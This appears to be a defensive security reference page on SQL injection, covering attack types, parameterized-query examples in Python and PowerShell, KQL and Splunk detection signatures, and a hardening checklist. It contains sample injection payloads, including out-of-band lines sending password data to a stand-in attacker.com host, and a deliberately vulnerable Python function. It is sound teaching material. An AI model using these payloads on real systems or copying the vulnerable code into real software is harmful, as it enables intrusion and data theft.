

# SQL Injection & Parameterized Defense

**SQL Injection (SQLi)** occurs when untrusted user input is directly concatenated or interpolated into a dynamic database query string, allowing an attacker to manipulate the query structure, bypass authentication, exfiltrate sensitive data, or achieve remote code execution on the database host.

Despite being known for decades, SQLi remains one of the most destructive web application vulnerabilities. The only definitive defense is the universal use of **Parameterized Queries (Prepared Statements)**.

---

## SQL Injection Taxonomy & Attack Vectors



### 1. In-Band (Classic) SQL Injection
- **Authentication Bypass**: Input `' OR 1=1 --` turns `SELECT * FROM users WHERE user = '$u' AND pass = '$p'` into `SELECT * FROM users WHERE user = '' OR 1=1 --' AND pass = ''`, returning the first row (usually the Administrator account).
- **UNION-Based Extraction**: Injects `UNION SELECT null, username, password FROM users--` to append target database records to the legitimate HTTP response table.

### 2. Inferential (Blind) SQL Injection
Used when the application displays generic error pages and does not echo database results:
- **Boolean Blind**: Injects conditions (`' AND SUBSTRING(password,1,1)='a'--`). If true, the page renders normally; if false, it renders a different message.
- **Time-Based Blind**: Injects timing commands (`WAITFOR DELAY '0:0:5'` in MSSQL, `pg_sleep(5)` in PostgreSQL, `sleep(5)` in MySQL). If the HTTP response is delayed by 5 seconds, the condition evaluated to true.

### 3. Out-of-Band (OOB) SQL Injection
Used when no direct response channel exists:
- Exploits database features to trigger external DNS lookups:
  - MSSQL: `master..xp_dirtree '\\' + (SELECT TOP 1 password FROM users) + '.attacker.com\share'`
  - Oracle: `UTL_HTTP.request('http://attacker.com/'||(SELECT user FROM dual))`

---

## Defensive Engineering: Prepared Statements

> [!IMPORTANT]
> **The Golden Rule**: Never concatenate user variables into SQL query strings. Prepared statements separate query structure from user data at the database parser level. The database engine pre-compiles the query template and treats all parameterized inputs strictly as literal values, rendering SQL injection structurally impossible.

---

## Practical Examples

### 1. Python: Vulnerable vs. Parameterized Queries

```python
import sqlite3
from typing import Optional, Tuple

# VULNERABLE IMPLEMENTATION (DO NOT USE)
def unsafe_authenticate(db_conn: sqlite3.Connection, username: str) -> Optional[Tuple]:
    # String formatting permits injection: "' OR '1'='1" bypasses password
    query = f"SELECT id, username, role FROM users WHERE username = '{username}'"
    cursor = db_conn.cursor()
    cursor.execute(query)  # <-- CRITICAL VULNERABILITY
    return cursor.fetchone()

# SECURE IMPLEMENTATION (PARAMETERIZED)
def safe_authenticate(db_conn: sqlite3.Connection, username: str) -> Optional[Tuple]:
    # Query structure is fixed; user data is passed as a separate tuple
    query = "SELECT id, username, role FROM users WHERE username = ?"
    cursor = db_conn.cursor()
    cursor.execute(query, (username,))  # Parameterized: Engine handles escaping safely
    return cursor.fetchone()

# SECURE POSTGRESQL (psycopg2) IMPLEMENTATION
def safe_query_postgres(pg_conn, target_user: str, min_role_id: int):
    with pg_conn.cursor() as cursor:
        query = """
            SELECT user_id, email, created_at 
            FROM accounts 
            WHERE username = %s AND role_id >= %s;
        """
        # Data passed as tuple; psycopg2 binds parameters safely via libpq
        cursor.execute(query, (target_user, min_role_id))
        return cursor.fetchall()
```

---

### 2. PowerShell: Secure Database Query with `SqlParameter`

When querying Microsoft SQL Server from PowerShell, always use the .NET `SqlCommand.Parameters` collection:

```powershell
function Invoke-SafeSqlQuery {
    [CmdletBinding()]
    param(
        [Parameter(Mandatory = $true)]
        [string]$ConnectionString,

        [Parameter(Mandatory = $true)]
        [string]$UsernameInput
    )

    $query = "SELECT UserID, UserName, Email, IsAdmin FROM dbo.AppUsers WHERE UserName = @UserName AND IsActive = 1;"

    $connection = [System.Data.SqlClient.SqlConnection]::new($ConnectionString)
    $command = [System.Data.SqlClient.SqlCommand]::new($query, $connection)

    # SECURE: Explicitly define parameter type and length
    $param = [System.Data.SqlClient.SqlParameter]::new(
        "@UserName", 
        [System.Data.SqlDbType]::VarChar, 
        50
    )
    $param.Value = $UsernameInput
    [void]$command.Parameters.Add($param)

    try {
        $connection.Open()
        $adapter = [System.Data.SqlClient.SqlDataAdapter]::new($command)
        $dataset = [System.Data.DataSet]::new()
        [void]$adapter.Fill($dataset)
        return $dataset.Tables[0]
    }
    finally {
        $connection.Close()
        $connection.Dispose()
    }
}
```

---

### 3. Detection: KQL & SPL Hunting Signatures

#### KQL (Microsoft Defender / Sentinel)
```kql
// Detect SQL Injection attempts in Azure Application Gateway WAF or IIS logs
W3CIISLog
| where csMethod in ("GET", "POST")
| where csUriQuery matches regex "(?i)(union.*select|waitfor\\s+delay|pg_sleep|information_schema|xp_cmdshell|--|\\bOR\\b\\s+['\\d]=['\\d])"
| project TimeGenerated, cIP, csMethod, csUriStem, csUriQuery, scStatus, scSubStatus
| summarize AttemptCount = count() by cIP, bin(TimeGenerated, 5m)
| where AttemptCount > 3
| order by AttemptCount desc
```

#### SPL (Splunk)
```spl
index=web sourcetype=access_combined
| regex uri_query="(?i)(union(\s+|\/\*.*\*\/)select|waitfor\s+delay|information_schema|exec(\s+xp_|\s+sp_)|'(\s+)?or(\s+)?'1'='1)"
| stats count values(uri_path) as endpoints values(useragent) as agents by clientip
| where count > 2
```

---

## Defense-in-Depth Checklist

1. **Parameterized Queries Everywhere**: Enforce via code review and static analysis (SAST).
2. **Principle of Least Privilege**: The web application's database user should only have `SELECT`, `INSERT`, `UPDATE`, `DELETE` on required tables. Never use `sa`, `root`, or `DBA` accounts.
3. **Disable Dangerous Stored Procedures**: In MSSQL, revoke permissions or disable `xp_cmdshell`, `xp_dirtree`, and `xp_regread`.
4. **Deploy Web Application Firewall (WAF)**: Enable OWASP Core Rule Set (CRS) on reverse proxies to block generic SQLi probes before they reach backend application pools.

---

## Related References

- [OWASP Top 10 for Web Applications](owasp-web-top-10.md) — Comprehensive web application vulnerability matrix.
- [Cross-Site Scripting (XSS) & CSP](xss-defense.md) — Client-side injection and mitigation.
- [HTTP Security Headers](http-security-headers.md) — Edge defense and transport security headers.
- [NIST Cybersecurity Framework 2.0](../grc/nist-csf-2.md) — Protect (PR.DS, PR.PS) and Detect (DE.CM) controls.
